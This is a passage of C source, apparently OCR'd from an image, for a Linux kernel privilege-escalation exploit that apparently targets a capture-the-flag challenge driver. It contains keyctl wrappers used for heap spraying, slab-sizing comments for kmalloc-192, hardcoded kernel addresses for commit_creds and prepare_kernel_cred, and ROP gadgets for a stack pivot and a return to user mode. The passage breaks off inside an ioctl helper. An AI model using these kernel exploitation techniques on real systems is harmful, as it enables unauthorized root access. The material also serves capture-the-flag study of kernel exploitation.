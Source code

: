 ```c
}

int key_read(int keyid, void *buffer, size_t buflen)
{
    return syscall(__NR_keyctl, KEYCTL_READ, keyid, buffer, buflen);
}

int key_revoke(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0);
}

int key_unlink(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_UNLINK, keyid, KEY_SPEC_PROCESS_KEYRING);
}

/**
 * Challenge interactiver
 */

/* kmalloc-192 has only 21 objects on a slub, we don't need to spray to many */
#define KEY_SPRAY_NUM 40

#define PIPE_INODE_INFO_SZ 192
#define PIPE_BUFFER_SZ 1024

#define USER_FREE_PAYLOAD_RCU 0xffffffff813d8210
#define PREPARE_KERNEL_CRED 0xffffffff81096110
#define COMMIT_CREDS 0xffffffff81095c30
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ed0

#define PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250c9d
#define POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250ca4
#define POP_RDI_RET 0xffffffff8106ab4d
#define XCHG_RDI_RAX_DEC_STH_RET 0xffffffff81adfc70

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

/**
 * @brief allocate an object bby kmalloc(size, __GFP_ZERO | GFP_KERNEL )
 * __GFP_RECLAIM = __GFP_KSWAPD_RECLAIM | __GFP_DIRECT_RECLAIM 
 * GFP_KERNEL = __GFP_RECLAIM | __GFP_IO | __GFP_FS
 * 
 * @param idx 
 * @param size 
 * @param buf 
 */
void alloc(uint32_t idx, uint32_t size, void *buf)
{
    struct node n = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xDEADBEEF, &n);
```